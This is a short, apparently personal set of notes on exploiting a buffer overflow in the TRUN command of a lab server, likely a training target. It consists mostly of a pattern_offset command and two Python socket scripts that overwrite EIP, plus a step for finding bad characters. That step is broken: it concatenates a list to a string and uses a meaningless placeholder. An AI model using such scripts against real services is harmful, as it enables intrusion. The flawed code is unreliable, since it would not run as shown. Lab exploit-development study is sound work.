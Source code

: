 * run the script


**pattern_offset**

```pattern_offset.rb -l 3000 -q 386F4337 ```

### Overwriting the EIP


```python3
#!/usr/bin/python
 
import sys, socket

shellcode= "A" * 2003 + "B" * 4 
while True:
    try:
        payload = "TRUN /.:/" + shellcode
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(shellcode)))
        s.send((payload.encode()))
        s.close()
        
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(shellcode)))
        sys.exit()
 ```

### Finding Bad Characters 

* for generating the shell code

* look for badchars in google

* 
```python3
#!/usr/bin/python
 
import sys, socket

badchars= ["asaf3af"]

shellcode= "A" * 2003 + "B" * 4 + badchars
while True:
    try:
        payload = "TRUN /.:/" + shellcode
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(shellcode)))
        s.send((payload.encode()))
        s.close()
        
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(shellcode)))
        sys.exit()
 ```
